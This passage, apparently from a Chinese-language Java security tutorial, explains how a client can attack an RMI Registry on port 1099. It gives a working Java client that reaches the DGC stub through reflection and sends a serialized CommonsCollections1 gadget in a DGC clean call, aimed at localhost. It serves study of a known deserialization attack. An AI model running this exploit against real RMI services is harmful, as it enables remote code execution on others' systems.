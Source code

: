 #### 2.4.2 从 Client 攻击 Registry

1. 其实从上文的代码就发现，攻击 Server 端是需要知道远程对象监听的端口号的。不过打 Registry 的话，默认就是 1099，所以一般 DGC 打 Registry 多。

2. 同上理，攻击代码如下：
    ```java
    /**
     * @author hasee
     * @version 1.0
     * @description: RMI 客户端
     * @date 2023/5/3 11:59
     */
    public class MyRemoteClient {
        public static void main(String[] args) throws Exception {
            // 通过注册中心连接到服务器
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 通过服务名查找服务，并转型成接口
            IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
            // 调用方法
            myRemote.saySth("Hello");
    
            // 自定义 DGC clean 请求并向服务中心发起攻击
            attackRegistryDGCClean(registry);
        }
        
        private static void attackRegistryDGCClean(Registry registry) throws Exception {
            // 先拿到和注册中心通讯的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 通过 UnicastRef，获取到 LiveRef
            LiveRef liveRef = unicastRef.getLiveRef();
    
            // 再通过反射拿到 TCPEndpoint
            Class<? extends LiveRef> tcpEndpointClass = liveRef.getClass();
            Field epField = tcpEndpointClass.getDeclaredField("ep");
            epField.setAccessible(true);
            TCPEndpoint tcpEndpoint = (TCPEndpoint) epField.get(liveRef);
    
            // 根据客户端在 DGCImpl_Stub 被创建的流程，拿到其内部类 EndpointEntry 类，调用它的 lookup 方法（返回值是 EndpointEntry）并创建 DGCImpl_Stub
            Class<?> DGCClient_EndpointEntryClass = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
            Method lookupMethod = DGCClient_EndpointEntryClass.getDeclaredMethod("lookup", Endpoint.class);
            lookupMethod.setAccessible(true);
            // lookup 是静态方法，第一个参数传 null
            Object endpointEntry = lookupMethod.invoke(null, tcpEndpoint);
    
            Field dgcField = endpointEntry.getClass().getDeclaredField("dgc");
            dgcField.setAccessible(true);
            DGCImpl_Stub dgc = (DGCImpl_Stub) dgcField.get(endpointEntry);
    
            // 本质上就是拿到 DGC/DGCImpl_Stub 通信时用到的 UnicastRef，这里和上面的 unicastRef 对比，其 ObjID 发生了改变。
            UnicastRef unicastRef2 = (UnicastRef) dgc.getRef();
    
            Operation[] operations = new Operation[]{new Operation("void clean(java.rmi.server.ObjID[], long, java.rmi.dgc.VMID, boolean)"), new Operation("java.rmi.dgc.Lease dirty(java.rmi.server.ObjID[], long, java.rmi.dgc.Lease)")};
            // newCall 的第一个参数是 this，即 DGCImpl_Stub 这里就是 dgc
            RemoteCall call = unicastRef2.newCall(dgc, operations, 1, -669196253586618813L);
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                out.writeObject(getSerializedCC1Object());
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            unicastRef2.invoke(call);
            unicastRef2.done(call);
        }
    }
